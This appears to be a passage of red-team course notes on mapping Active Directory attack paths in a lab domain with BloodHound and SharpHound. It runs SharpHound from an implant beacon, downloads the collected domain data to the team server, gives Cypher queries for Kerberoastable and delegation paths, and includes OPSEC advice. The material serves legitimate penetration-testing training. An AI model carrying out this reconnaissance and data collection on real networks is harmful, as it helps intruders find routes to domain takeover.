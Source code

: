 [BloodHound](https://github.com/BloodHoundAD/BloodHound) is an application that uses graph theory to display the relationships between different Active Directory components, specifically for the use case of finding attack paths. BloodHound requires the use of two additional components: a [neo4j](https://neo4j.com/) database and the [SharpHound](https://github.com/BloodHoundAD/SharpHound3) data collector.

To configure neo4j and BloodHound, go to your **attacker-windows** VM and open a **Command Prompt**. Change directory to `C:\Tools\neo4j\bin` and run `neo4j.bat console`.
```shell
C:\Users\Administrator>cd C:\Tools\neo4j\bin

C:\Tools\neo4j\bin>neo4j.bat console
2021-05-11 10:03:21.143+0000 INFO  Starting...
2021-05-11 10:03:28.065+0000 INFO  ======== Neo4j 4.2.3 ========
2021-05-11 10:03:32.143+0000 INFO  Performing postInitialization step for component 'security-users' with version 2 and status CURRENT
2021-05-11 10:03:32.143+0000 INFO  Updating the initial password in component 'security-users'
2021-05-11 10:03:33.128+0000 INFO  Bolt enabled on localhost:7687.
2021-05-11 10:03:36.096+0000 INFO  Remote interface available at http://localhost:7474/
2021-05-11 10:03:36.096+0000 INFO  Started.
```

Open a web browser and navigate to **http://localhost:7474/**. Enter **neo4j** for both the username and password, and click **Connect**. You'll be prompted to set a new password - pick something you'll remember and click **Change Password**. You may now close the browser.

Go to `C:\Tools\BloodHound`, launch `BloodHound.exe` and login with your new password.

![[Pasted image 20220831122409.png]]

The database will be empty, so it's time to run the data collection with SharpHound.

SharpHound has a number of different collection methods (all documented on the repository):

-   **Default** - Performs group membership collection, domain trust collection, local group collection, session collection, ACL collection, object property collection, and SPN target collection
-   **Group** - Performs group membership collection
-   **LocalAdmin** - Performs local admin collection
-   **RDP** - Performs Remote Desktop Users collection
-   **DCOM** - Performs Distributed COM Users collection
-   **PSRemote** - Performs Remote Management Users collection
-   **GPOLocalGroup** - Performs local admin collection using Group Policy Objects
-   **Session** - Performs session collection
-   **ComputerOnly** - Performs local admin, RDP, DCOM and session collection
-   **LoggedOn** - Performs privileged session collection (requires admin rights on target systems)
-   **Trusts** - Performs domain trust enumeration
-   **ACL** - Performs collection of ACLs
-   **Container** - Performs collection of Containers
-   **DcOnly** - Performs collection using LDAP only. Includes Group, Trusts, ACL, ObjectProps, Container, and GPOLocalGroup.
-   **ObjectProps** - Performs Object Properties collection for properties such as LastLogon or PwdLastSet
-   **All** - Performs all Collection Methods except GPOLocalGroup.

**OPSEC Alert**
>Running collection methods such as **LocalAdmin**, **RDP**, **DCOM**, **PSRemote** and **LoggedOn** will allow SharpHound to enumerate every single computer in the domain. Collecting this information is useful to BloodHound and without it you may see fewer paths, at the obvious expensive of being loud on the wire.

SharpHound will write a ZIP file in the current working directory of the Beacon, so ensure you move somewhere writeable first.
```shell
beacon> execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c DcOnly

------------------------------------------------
Initializing SharpHound at 10:04 AM on 5/13/2021
------------------------------------------------

Resolved Collection Methods: Group, Trusts, ACL, ObjectProps, Container, GPOLocalGroup, DCOnly

[+] Creating Schema map for domain DEV.CYBERBOTIC.IO using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
[+] Cache File not Found: 0 Objects in cache
[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 33 MB RAM
[+] Creating Schema map for domain CYBERBOTIC.IO using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
Status: 81 objects finished (+81 81)/s -- Using 42 MB RAM
Enumeration finished in 00:00:01.2056637
Compressing data to .\20210513100410_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:04 AM on 5/13/2021! Happy Graphing!
```

By default, SharpHound will target the current domain. To enumerate a foreign domain, use the `-d` option.
```shell
beacon> execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c DcOnly -d cyberbotic.io

------------------------------------------------
Initializing SharpHound at 10:05 AM on 5/13/2021
------------------------------------------------

Resolved Collection Methods: Group, Trusts, ACL, ObjectProps, Container, GPOLocalGroup, DCOnly

[+] Creating Schema map for domain CYBERBOTIC.IO using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
[+] Cache File Found! Loaded 140 Objects in cache
[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 36 MB RAM
[+] Creating Schema map for domain ZEROPOINTSECURITY.LOCAL using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io

Status: 110 objects finished (+110 3.666667)/s -- Using 40 MB RAM
Status: 111 objects finished (+1 1.261364)/s -- Using 44 MB RAM
Enumeration finished in 00:01:28.6689739
Compressing data to .\20210513100546_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:07 AM on 5/13/2021! Happy Graphing!
```

To download these files, use the `download` command.
```shell
beacon> download 20210513100410_BloodHound.zip
[*] Tasked beacon to download 20210513100410_BloodHound.zip
[+] host called home, sent: 37 bytes
[*] started download of C:\Temp\20210513100410_BloodHound.zip (11757 bytes)
[*] download of 20210513100410_BloodHound.zip is complete

beacon> download 20210513100546_BloodHound.zip
[*] Tasked beacon to download 20210513100546_BloodHound.zip
[+] host called home, sent: 37 bytes
[*] started download of C:\Temp\20210513100546_BloodHound.zip (14368 bytes)
[*] download of 20210513100546_BloodHound.zip is complete
```

This will download the files to the Team Server. To save them onto your desktop go to **View > Downloads**, select the files, click **Sync Files** and choose somewhere to save them. It works this way so that every operator connected to the Team Server has access to the same files.

In BloodHound, click the **Upload Data** button in the menu on the right and select your ZIP files. Once the files have been extracted, click the **More Info** button in the top-left - the DB Stats and On-Prem Objects should now be populated.

There are multiple ways to search for data in BloodHound.

Since we have a Beacon running as **bfarmer**, a good first step could be to find if he has any local admin rights on machines in the domain. Use the search box in the top-left to find bfarmer. Scroll down the **Node Info** tab until you find the **Local Admin Rights** section. Click on **Group Delegated Local Admin Rights** and BloodHound should show a simple graph displaying the relationship between bfarmer and **SRV-1**.

It shows us that bfarmer is **MemberOf** the **Developers** domain group, which is **AdminTo** SRV-1.
![[Pasted image 20220831122518.png]]

You can right-click on any edge and select **Help** to see more information about what that relationship means, how you might exploit it, any OPSEC considerations as well as additional references.
![[Pasted image 20220831122526.png]]

The path finder (the little road icon next to the search box) allows you to plot a path between two specific nodes. Specify a start and target node, and BloodHound will plot the shortest path (if it can find one). For example, searching for a path from **jking** to the **Oracle Admins** group should show that jking is a member of **1st Line Support** which has a **GenericAll** ACL to Oracle Admins.
![[Pasted image 20220831122533.png]]

To find any path to a target node, find it using the search box, right-click the node and select **Shortest Paths to Here**.
![[Pasted image 20220831122541.png]]

Nodes (users/groups/computers) can also be "Marked as Owned" or "Marked as High Value". This provides a means of plotting paths using those tags, such as "Find Paths to Here from Owned" or "Find Paths to High Value Targets".

In the **Analysis** tab, you will find lots of built-in queries that can help you find interesting attack paths in the domain. BloodHound also allows you to execute raw cypher queries (at the bottom of the window). This is useful for finding nodes that have particular properties or to help find specific attack paths.

This query will show all users that have a **Service Principal Name** (SPN) set:
```shell
MATCH (u:User {hasspn:true}) RETURN u
```

And this query will display computers that are **AllowedToDelegate** to other computers:
```shell
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

One of the pre-built queries in BloodHound is called **Shortest Paths from Kerberoastable Users**, which will attempt to plot a path to Domain Admin from any user with an SPN. However, in the lab, this will find no result. The real strength of custom cyber query (in my view) is to expand out those search parameters:
```shell
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

This query will plot the shortest paths from any user with an SPN, to any computer - and will produce a path from **svc_mssql** to **SRV-1**.
![[Pasted image 20220831122625.png]]
(Don't worry if this specific paths make no sense - we'll be looking at them in more detail as we progress thrrough the course.)


>Get familiar with the BloodHound interface by finding different nodes and edges.


